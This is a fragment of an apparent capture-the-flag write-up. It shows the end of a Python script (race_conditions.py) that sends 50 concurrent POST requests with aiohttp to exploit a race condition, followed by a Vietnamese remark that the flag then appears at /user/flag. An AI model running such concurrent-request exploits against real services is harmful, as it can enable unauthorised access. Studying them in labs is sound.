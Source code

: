 ```
    async with aiohttp.ClientSession(connector=aiohttp.TCPConnector(limit=concurrency_limit)) as session:
        tasks = [send_post(session, semaphore) for _ in range(50)]
        await asyncio.gather(*tasks)

# Run the main function
asyncio.run(main())


#python3 race_conditions.py
```



vào endpoint /user/flag boomm
![image](../CyberSpace%20CTF/img/35.png)



















